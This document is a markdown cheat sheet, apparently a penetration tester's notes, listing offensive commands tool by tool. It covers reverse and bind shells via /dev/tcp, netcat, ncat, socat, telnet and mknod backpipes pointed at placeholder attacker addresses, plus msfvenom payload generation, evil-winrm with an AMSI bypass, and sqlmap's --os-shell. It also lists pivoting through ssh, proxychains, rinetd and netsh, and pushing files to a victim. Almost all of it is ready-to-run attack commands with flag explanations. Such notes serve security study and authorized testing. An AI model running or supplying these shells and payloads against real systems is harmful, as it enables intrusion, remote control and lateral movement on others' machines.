 # [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <username> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
#### `evil-winrm -i X.X.X.X -u <username> -e <path/on/attack>`
#### `Invoke-Binary <path/to/csharpexe>`
#### `Donut-Loader`
#### `Bypass-4MSI`
  * -s allows you to load powershell scripts from Kali to the victim
  * Invoke-Binary runs C# executables in memory; the executables must be in the path set by the -e flag in the prior command
  * Donut-Loader and Bypass-4MSI look useful but I don't know how to use them yet

# [mknod](https://man7.org/linux/man-pages/man1/mknod.1.html):
#### `mknod /tmp/backpipe p`
#### `/bin/sh 0</tmp/backpipe | nc X.X.X.X YYY 1>/tmp/backpipe`
#### `mknod /tmp/backpipe p && telnet X.X.X.X YYY 0</tmp/backpipe | /bin/sh 1>/tmp/backpipe`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports
  
# [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts):
#### `netsh interface portproxy add v4tov4 listenport=YYY listenaddress=X.X.X.X connectport=BBB connectaddress=A.A.A.A`
#### `netsh advfirewall firewall add rule name="rule_name" protocol=TCP dir=in localip=X.X.X.X localport=YYY action=allow`  
  * Above interface command creates a listener on X.X.X.X:YYY that forwards to A.A.A.A:BBB
  * Above advfirewall command creates a firewall rule that allows inbound traffic to X.X.X.X:YYY

# [proxychains](https://www.unix.com/man-page/debian/1/proxychains/):
#### `cat /etc/proxychains.conf`
#### `socks4 127.0.0.1 YYY`
#### `proxychains command`
  * Combine with `ssh -N -D` to source a given command through a pre-established tunnel
    * For instance you could nmap a machine on an internal network from an already-compromised host on that network

# [rinetd](https://manpages.debian.org/unstable/rinetd/rinetd.8.en.html):
#### `nano /etc/rinetd.conf`
#### `X.X.X.X YYY A.A.A.A BBB (in the conf file)`
#### `service rinetd restart`
  * Redirects traffic received on YYY from X.X.X.X to A.A.A.A:BBB
    * X.X.X.X can be 0.0.0.0 to redirect traffic from any source
  * Restart the service after changing the configuration file to apply changes

# [socat](https://linux.die.net/man/1/socat):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink -l <username> -pw <password> X.X.X.X -R YYY:A.A.A.A:BBB`
#### `ssh -N -D YYY <username>@X.X.X.X`
#### `ssh -N -L X.X.X.X:YYY:A.A.A.A:BBB user@F.F.F.F`
#### `ssh -N -R X.X.X.X:YYY:A.A.A.A:BBB user@X.X.X.X`
  * -R binds a remote server's (X.X.X.X) port (YYY) to the local server's (A.A.A.A) port (BBB) using the remote server's credentials
  * -D specifies a local dynamic application-level port forwarder for tunneling
    * In this case it will forward any traffic to local port YYY to any host on X.X.X.X's network through it's SSH connection
  * -N supresses the shell that usually results from SSH
  * -L sets up local port forwarding
    * In this case it forwards X.X.X.X port YYY to A.A.A.A port BBB through an SSH connection on F.F.F.F
  * -R sets up remote port forwarding
    * In this case it forwards X.X.X.X port YYY to A.A.A.A port BBB through an SSH connection on X.X.X.X
  

# [telnet](https://linux.die.net/man/1/telnet):
#### `nc -nlvp YYY`
#### `nc -nlvp ZZZ`
#### `telnet X.X.X.X YYY | /bin/sh | telnet X.X.X.X ZZZ`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
  * Run the top two commands on the attacker machine, then the bottom command on the victim
  * Type commands into the first shell window, then read the output from the second shell window

